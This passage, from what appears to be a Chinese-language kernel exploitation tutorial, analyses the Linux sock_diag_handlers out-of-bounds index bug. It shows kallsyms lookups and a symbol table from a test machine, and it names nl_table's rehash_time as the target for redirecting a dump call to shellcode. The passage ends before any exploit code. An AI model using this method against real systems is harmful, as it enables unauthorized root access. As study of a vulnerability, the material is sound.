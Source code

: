 	        return err;
	}

我们发现上面两个函数都没有对`sock_diag_handlers`数组的下标进行越界检查。这里我们有可能让该数组在某个特定的下标让`hndl->dump(skb, nlh)`执行我们的shellcode。因为`req->sdiag_family`的数据类型是`__u8`，取值范围是0 – 255，我们可以利用的范围是`AF_MAX`(40) – 255，我们关注一下`sock_diag_handlers`数组下标从`AF_MAX`到 255之间的数据。

	/* 我的实验环境 */
	root@ubuntu:~# uname -a
	Linux ubuntu 3.5.0-17-generic #28-Ubuntu SMP Tue Oct 9 19:32:08 UTC 2012 i686 i686 i686 GNU/Linux
	
	root@ubuntu:~# grep sock_diag_handler /proc/kallsyms 
	c1a487a0 b sock_diag_handlers

查询可利用的地址范围的符号（0xc1a48840 – 0xc1a48b40）

	c1a487a0 b sock_diag_handlers
	c1a48840 B flow_cache_genid
	c1a48860 b flow_cache_global
	c1a488b0 b flow_cache_gc_lock
	c1a488b2 b __key.7168
	c1a488b4 b rps_dev_flow_lock.37642
	c1a488b6 b rps_map_lock.37599
	c1a488b8 b skb_pool
	c1a488b8 b __key.38018
	c1a488c8 b trapped
	c1a488cc b qdisc_base
	c1a488d0 b qdisc_rtab_list
	c1a488d4 b qdisc_stab_lock
	c1a488d8 b act_base
	c1a488e0 b nl_table_users
	c1a488e4 b nl_table 
	c1a488e8 b netlink_chain
	c1a488e8 b __key.38625
	c1a488e8 b __key.38626
	c1a48900 b family_ht
	c1a48980 B proc_net_netfilter
	c1a489a0 B nf_hooks_needed
	c1a48e80 b nf_log_sysctl_fnames

上面是在这个范围里的一些符号。最后有牛人发现可以利用`nl_table`。dump函数的偏移位置是`struct sock_diag_handler + 4`（注意编译器的对齐规则），我们来看看`nl_table`：

	/* linux/net/netlink/af_netlink.c */
	
	struct nl_pid_hash {
	    struct hlist_head   *table;
	    unsigned long       rehash_time;  <- 可利用的变量
	    …. ….
	};
	
	struct netlink_table {
	    struct nl_pid_hash  hash;
	    struct hlist_head   mc_list;
	    …. ….
	};
	